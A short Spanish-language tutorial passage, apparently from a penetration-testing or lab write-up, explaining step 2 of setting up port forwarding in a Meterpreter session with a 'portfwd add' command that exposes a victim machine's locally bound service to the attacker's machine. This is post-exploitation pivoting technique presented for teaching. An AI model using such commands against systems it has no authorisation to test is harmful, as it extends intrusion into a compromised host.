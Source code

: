 ## 🔹 **2. Crear el Port Forwarding**

En tu sesión Meterpreter, usa el comando:

`portfwd add -l 8888 -p 8888 -r 127.0.0.1`

📌 **Explicación**:

- `-l 8888` → El puerto donde **escucharás en tu máquina atacante**.
- `-p 8888` → El puerto en la víctima que quieres exponer.
- `-r 127.0.0.1` → La dirección donde el servicio escucha en la víctima.